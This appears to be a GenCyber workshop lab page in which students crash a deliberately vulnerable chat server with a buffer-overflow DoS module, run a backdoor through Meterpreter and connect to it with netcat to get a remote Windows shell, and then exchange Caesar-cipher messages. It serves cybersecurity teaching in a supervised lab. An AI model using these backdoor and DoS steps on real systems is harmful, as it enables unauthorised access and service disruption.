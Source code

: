 # Motivating Games 

## Denial of service (DoS)

### Overview
In our lecture on <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Penetration Testing and Software Security</a>, we have exploited the vulnerable chat server (vchat) and deployed the buffer overflow attack against vchat. We were able to hack into the Windows VM through vchat.

The same vulnerability can be exploited for a denial of service (DoS) attack. In the DoS attack, the attacker sends a long message with garbage content, which overwrites the buffer and contents above the buffer as shown in the figure below. This messes up the function return address with garbage data. Now when the function returns, it returns to nowhere and *vchat* actually crashes because of this. The chat service is lost and access to the service is denied.

<img src="../Imgs/BufferOverflow-junk.png" width=480>

### DoS game

1. The instructor or a volunteer starts a vulnerable chat server C:\Tools\vchat\Server\vchat.exe on a Windows VM
   - Announce the IP of Windows VM running *vchat*
2. Everybody runs /home/kali/GenCyber/vchat/Client/client.py to chat with each other
   - Wait for everybody to send at least one message
3. Do not proceed further without the instructor's permission
4. Now anybody can deploy the DoS attack
   - Use armitage to scan the target Windows VM and find attacks
   - Click the found Windows VM (IP)
   - Deploy auxillary/dos/vchat/DoS

## Planting backdoor

### Overview

We want to understand the danger of getting exploited. If a backdoor is planted on a compromised computer, the attacker will be able to log into the compromised computer anytime later if the compromised computer is not fixed. 

### Backdoor game

1. Refer to Hands-on 2 of <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Lecture 2 Penetration Testing and Software Security</a>. Yoiu hack into the instructor's Windows VM.
   - The instructor will show the IP of his Windows VM (192.168.0.87)
2. Once the instructor's VM is compromised, you start a Meterpreter shell. 
   - The Meterpreter shell can be used to upload a malware program from the attacker's computer to the victim computer. Let's assume the attacker already uploaded the malware, which is C:\Workshop\MalwareSamples\Backdoors\SimpleBindBackdoor\nice3.exe
   - The Meterpreter shell can also be used to <a href="https://pentestwiki.org/metasploit-meterpreter-cheat-sheet/">execute the uploaded malware</a>. Run the following command within the Meterprester shell to run the backdoor
```
execute -f C:\\Workshop\\MalwareSamples\\Backdoors\\SimpleBindBackdoor\\nice3.exe
```
3. Start a terminal on your Kali VM and run the following command to log into the backdoor running on the instructor's Window VM. 
```
nc 192.168.0.87 8080
```

Here is an example of a succesful login
```
$ nc 192.168.0.87 8080
Microsoft Windows [Version 10.0.19044.1826]
(c) Microsoft Corporation. All rights reserved.

C:\Tools\vchat\Server>
```

Run a *dir* command within the Windows console. What do you see?

4. Tell the instructor once you can get into the backdoor. 
5. Other students can try to log into the backdoor similarly and notify the instructor if they can do it

## Messaging with Caesar cipher
### Overview
In Caesar Cipher, as shown in the Caesar Cipher Medallion shown below, we map a letter in a message, called plaintext letter, to another letter for encryption, called ciphtertext letter. In this way, we can use Caesar Cipher to encrypt messages.

<img src="../Imgs/CaesarCipherMedallion.png" width=480> 

### Messaging with Caesar cipher Medallion
- The instructor starts the chat server on his Windows VM
- Evebody starts the chat client on their Kali VM
- The instructor sends a secret message
- Everybody decrypts the secret message
